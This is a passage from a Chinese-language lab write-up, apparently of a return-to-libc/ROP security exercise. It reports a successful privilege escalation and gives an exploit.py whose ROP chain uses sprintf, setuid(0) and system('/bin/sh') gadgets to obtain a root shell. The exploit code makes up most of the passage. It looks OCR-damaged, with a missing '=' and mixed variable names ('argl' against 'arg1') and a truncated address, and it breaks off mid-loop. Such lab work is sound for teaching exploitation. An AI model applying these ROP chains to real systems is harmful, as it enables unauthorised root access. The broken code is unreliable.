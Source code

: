 运行程序，可以看到成功提权

<img src="https://i.loli.net/2021/07/14/wq9mP1fk34vJYNV.png" alt="image-20210714044535215" style="zoom:50%;" />

# Task 5: Return-Oriented Programming

由于我们上一个 Task 已经使用了 ROP，所以这一个 Task 只要稍作修改即可。

先获取 `foo()` 地址

<img src="https://i.loli.net/2021/07/14/N6RqhLve2fu47Qr.png" alt="image-20210714052533803" style="zoom:50%;" />

然后修改 exploit.py

```python
# !/usr/bin/python3
import sys

def tobytes (value):
    return (value).to_bytes(4, byteorder= 'little')

content bytearray(0xaa for i in range (24))

sh_addr = 0xffffd3e3
leaveret = 0x565562ce
sprintf_addr = 0xf7e20e40
setuid_addr = 0xf7e99e30
system_addr = 0xf7e12420
exit_addr = 0xf7e4f80
ebp_bof = 0xffffcd58
foo_addr = 0x565562d0 # CHANGED!

# setuid()'s 1st argument
sprintf_argl = ebp_bof + 12 + 5*0x20

# a byte that contains 0x00
sprintf_arg2 = sh_addr + len("/bin/sh")

# Use leaveret to return to the first sprintf()
ebp_next = ebp_bof + 0x20
content += tobytes(ebp_next)
content += tobytes(leaveret)
content += b'A' * (0x20 - 2*4)

# sprintf(sprintf_argl, sprintf_arg2)
for i in range(4):
    ebp_next += 0x20
    content += tobytes(ebp_next)
    content += tobytes(sprintf_addr)
    content += tobytes(leaveret)
    content += tobytes(sprintf_arg1)
    content += tobytes(sprintf_arg2)
    content += b'A' * (0x20 - 5*4)
    sprintf_argl += 1

# setuid(0)
ebp_next += 0x20
content += tobytes(ebp_next)
content += tobytes(setuid_addr)
content += tobytes(leaveret)
content += tobytes(0xFFFFFFFF)
content += b'A' * (0x20 - 4*4)

for i in range(10): # CHANGED!
```
